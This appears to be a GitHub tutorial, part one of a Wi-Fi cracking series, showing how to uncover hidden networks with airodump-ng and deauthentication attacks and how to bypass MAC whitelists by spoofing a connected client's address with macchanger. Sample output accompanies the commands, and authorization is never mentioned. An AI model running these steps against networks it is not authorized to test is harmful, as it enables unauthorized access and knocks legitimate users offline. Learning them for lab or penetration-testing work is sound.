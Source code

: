# Wifi-Cracking (Part-1)   

#### [ HIDDEN NETWORKS / MAC FILTERING]
---


In this writeup we are going to learn how to gain access on networks and bypass their security features , we will be covering  following types of networks:

- Target Hidden networks
- Bypass MAC filtering
- Methods to gain access on
  - Captive portals
  - WEP, WPA, WPA2
  - Fake Access Points
  - WPA Enterprise

these are main topics but there are many subtopics in each main topic which we will discuss in depth so just follow us.

Let's begin with **HIDDEN NETWORKS**, a hidden network is one that does not broadcast its name or **ESSID** and problem with this types of networks are we can't connect even they are open networks, the solution to this problem is **airodump-ng** and **deauth auth**

**NOTE : Use your wireless adapter in monitor mode and use your  wireless adapter name in commands  whatever it is in our case we use wlan0**

Run: (to see all networks around you)

```bash
root@kali:~# airodump-ng wlan0

```
You will get something like This

```bash
CH  1 ][ Elapsed: 0 s ][ 2020-05-05 20:35                                

BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

56:13:58:76:5B:55  -34 100      213       64    0   1  360  WPA2 CCMP   PSK  OnePlus7T   
44:11:C8:21:7B:76   25 100       14       0     0   6  54e  WPA2 CCMP   PSK  NETGEAR
63:16:F0:EC:76:F3   25 14         0       0     0   11 54e  OPN              <length: 0>

```
simply to identify Hidden networks see **ESSID* field and there will be no name or <length : 0>
in the place so copy its MAC Address and run airodump-ng

```
root@kali:~# airodump-ng --bssid 63:16:F0:EC:76:F3  --chaneel 11 wlan0

```

```bash
CH  1 ][ Elapsed: 1 min ][ 2020-05-05 20:35                                

BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
63:16:F0:EC:76:F3   25 14         0       0     0   11 54e  OPN              <length: 0>

BSSID                  STATION         PWR   Rate     Lost  Frames   Probe
63:16:F0:EC:76:F3  33:90:E9:50:A8:F4   -33   0 -21      0       9

```
(Don't quit this operation)

Sometimes just running the airodump-ng  will give you the name of the  network or just use **deauth attack** to anyone of the client which is connected to that network

```bash
root@kali:~# aireplay-ng --deauth 4 -a 63:16:F0:EC:76:F3 -c 33:90:E9:50:A8:F4 wlan0

```
Hit enter after some packet the name of network will be available

```bash
CH  1 ][ Elapsed: 1 min ][ 2020-05-05 20:35                                

BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
63:16:F0:EC:76:F3   25 14         0       0     0   11 54e  OPN              XOXO

BSSID                  STATION         PWR   Rate     Lost  Frames   Probe
63:16:F0:EC:76:F3  33:90:E9:50:A8:F4   -33   0 -21      0       9

```

Now you get the name we want to connect with this network for this :

**NOTE : You cannot connect any network in monitor mode so reset your wireless adapter to managed mode because monitor mode is only used to capture the packets**

there are many options to do this either use **airmon-ng stop wlan0mon** or **iwconfig wlan0 mode managed** use any of the command as your wish or just simply disconnect your wireless apadter and connect it once again it will do your job and run .

```bash
root@kali:~# service network-manager start

```

![](img/access/g1.jpeg)
Now,
- Go to your wifi options select the options *connect to hidden wifi network*
- select security option and write the name you got.
- It will connect it successfully to a hidden network.

---
##### MAC FILTERING

**NOTE: wireless card in monitor mode**

Another chance you will be not able to connect an open network even if you know it key because that router must be using **mac filtering**, since MAC Address is unique to each network device, Routers can use **mac filtering** to allow/deny devices from connecting based on mac address, it works on :

- Using a blacklist- allow all MACs to connect except the ones in the list
- Using a whitelist- deny all MACs from connecting except ones in the list.

At first lets see how to bypass blacklist method

Run: (to see all networks around you)

```bash
root@kali:~# airodump-ng wlan0

```

```bash
CH  1 ][ Elapsed: 0 s ][ 2020-05-06 10:35                                

BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

56:13:58:76:5B:55  -34 100      213       64    0   1  360  WPA2 CCMP   PSK  OnePlus7T   
44:11:C8:21:7B:76   25 100       14       0     0   6  54e  WPA2 CCMP   PSK  NETGEAR
63:16:F0:EC:76:F3   25 14         0       0     0   11 54e  OPN               XOXO

```

Run airodump-ng on that specific network to see clients connected to it

```bash
root@kali:~# airodump-ng --bssid 63:16:F0:EC:76:F3  --chaneel 11 wlan0

```
---

```bash
CH  1 ][ Elapsed: 45 sec ][ 2020-05-06 10:37                                

BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
63:16:F0:EC:76:F3   25 14         0       0     0   11 54e  OPN              XOXO

BSSID                  STATION         PWR   Rate     Lost  Frames   Probe
63:16:F0:EC:76:F3   80:E9:59:77:4F:99  -33   0 -21      0       9

```
Output suggest that the client with this 80:E9:59:77:4F:99 address is in whitelist thats why it connected to it change your MAC address of wireless card to same as connected client

**NOTE: For connecting network change mode to managed**
(disconnect the card and again connect to machine) and use **macchanger** tool change MAC address

```bash
root@kali:~# ifconfig wlan0 down
root@kali:~# macchanger -m 80:E9:59:77:4F:99 wlan0

```
this command will to do the job see if you get any error or you want to change MAC Address in different way you can do it
Now if you go to wifi-settings and you will be able to connect to it because now you are in the whitelist.


Link to [Part-2](https://github.com/noob-atbash/wifi-cracking/edit/master/wifi-crackingP2.md)


**AUTHOR** - [Error](https://github.com/Error-200)
